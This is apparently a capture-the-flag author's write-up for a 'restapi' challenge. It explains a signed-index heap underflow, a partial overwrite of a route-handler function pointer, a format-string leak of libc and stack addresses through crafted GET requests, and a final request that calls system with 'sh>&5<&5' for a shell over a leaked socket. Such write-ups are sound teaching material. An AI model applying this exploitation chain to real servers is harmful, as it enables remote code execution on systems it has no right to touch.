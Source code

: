 # restapi

The bug is in `split_path_segments`, where a signed `int8_t` is used as an index of a 256-element heap array.


The heap layout at start is:

```
+----------+
| buf      | <-----------------------------------------------------
+----------+ <                                                     |
| route    | <                                                     |
+----------+ <                                                     |
| route    | <                                                     |
+----------+ <                                                     |
| route    | <                                                     |
+----------+                                                       |
| segs     |  - underflow from segs reaches partway back into buf -
+----------+

```

This lets us write pointers into the input buffer, at offsets preceding the segment array.

There's plausibly some house-of-whatever you can do by overwriting heap metadata (fingers crossed I have prevented this), but the intended solution is to partially overwrite a route handler:

```
struct path_segment {                         struct route {
    char *segment; .... full overwrite of ...... char *path;
    uint16_t length; .. partial overwrite of ... void *func;
};                  ... left unchanged ......... struct route *next;
                                              };
```

ASLR has 4096-byte granularity, so a 16-bit partial overwrite of a function pointer has a 1/16 chance of success.

The 16-bit value comes from the length of the path segment, so to corrupt the first route, we send something like this:

```
GET ///////////////...///////////////AAAAAAAAAAAAAAA...AAAAAAAAAAAAAAAA HTTP/1.1\n

               251 slashes                 (function % 0x10000) As   
```

When this corrupted route is being matched, the `path` pointer points into the same place in the buffer as where our `A`s were on the first request.

Thus in our second request, if we want the route to be matched, we must provide the route template at that same offset, ensuring null-termination by placing it at the end of the request (or sending a null byte, I guess...):

```
GET /meow/123             HTTP/1.1\n /meow/$num

         padding equiv. to           template
             251 slashes             
```

This lets us call any local function (in the same 0x10000-byte area as a request handler) with controlled int and string arguments. For example, we can call `_dprintf_chk` from the PLT, and leak stack contents!

```
GET /4/0/%lu_%lu_%lu_%lu  HTTP/1.1\n /$num/$num/$string
```

4 is the socket's fd, 0 is the __dprintf_chk flags argument requesting no overflow checks, and the 3rd argument is our format string!

This can be used to leak libc and stack pointers...

We can now call a function from libc by redoing the partial overwrite to target `call_func_with_args`, and supplying an arbitrary function pointer. We use the stack leak to place additional arguments later on in the `args` array:

```
args[0]               ...1               ...2 3
     |                   |                  | |
     v                   v                  v v

GET /{libc_base+0x4e9f0}/{stack_leak-0x1b0}/1/sh>&5<&5 /$num/$num/$num/$string

     ^                   ^                  ^ ^
     |                   |                  | |
     |                   |                  | unused parameter = our shell command
     |                   |                  | 
     func = system       args = &args[3]    argc = 1
```

Note that earlier we used fd 4 for dprintf, and now we use fd 5 in our `system` call - this is because the connection socket was never closed after our earlier `dprintf` invocation, leaking an fd.

